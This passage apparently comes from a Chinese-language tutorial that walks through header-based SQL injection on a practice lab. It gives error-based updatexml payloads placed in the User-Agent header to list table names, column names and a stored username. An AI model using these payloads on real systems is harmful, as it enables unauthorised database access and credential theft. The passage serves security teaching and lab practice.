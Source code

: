 #### 3.5.2.5.**确认数据库表名**

User-Agent: 'and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security' )),3) and '

 

![img](assets/1nVEQGWkUlYXKvy.jpg) 

#### 3.5.2.6.**确认数据库列名**

User-Agent: 'and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' )),3) and '

![img](assets/iB9DUvAGeypfco2.jpg) 

#### 3.5.2.7.**确认数据库字段名**

User-Agent: 'and updatexml(1,concat(0x7e,(select username from users limit 0,1 )),3) and '
